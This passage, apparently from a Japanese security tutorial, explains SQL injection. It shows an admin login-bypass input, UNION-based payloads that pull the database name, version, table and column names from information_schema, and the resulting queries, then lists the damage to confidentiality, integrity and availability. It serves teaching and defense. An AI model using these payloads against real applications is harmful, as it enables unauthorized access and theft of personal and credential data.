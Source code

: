**攻撃入力例:**
- Username: `admin' --`
- Password: （任意）

**生成されるSQL:**
```sql
SELECT * FROM users WHERE username = 'admin' --' AND password = 'password'
```
`--` はSQLのコメントなので、パスワードチェックが無効化される

#### データ抽出攻撃
**攻撃入力:**
```
1' UNION SELECT table_name, column_name FROM information_schema.columns --
```

**生成されるSQL:**
```sql
SELECT * FROM products WHERE id = '1' UNION SELECT table_name, column_name FROM information_schema.columns --'
```

### 高度な攻撃例

#### データベース情報の取得
```sql
-- データベース名の取得
1' UNION SELECT database(), version() --

-- テーブル一覧の取得
1' UNION SELECT table_name, null FROM information_schema.tables WHERE table_schema = database() --

-- カラム情報の取得
1' UNION SELECT column_name, data_type FROM information_schema.columns WHERE table_name = 'users' --
```

---

## 被害の範囲

### 1. データの機密性への影響
- **個人情報の漏洩**: 氏名、住所、電話番号、メールアドレス
- **認証情報の窃取**: ユーザー名、パスワード、APIキー
- **機密データの取得**: 財務情報、営業秘密、顧客データ

### 2. データの完全性への影響
- **データの改ざん**: 既存レコードの不正な変更
- **データの削除**: 重要な情報の消失
- **不正データの挿入**: 偽の情報の追加

### 3. データの可用性への影響
- **サービス停止**: データベースサーバーのクラッシュ
- **パフォーマンス低下**: 大量のクエリによる負荷
- **システム全体の障害**: 連鎖的な影響
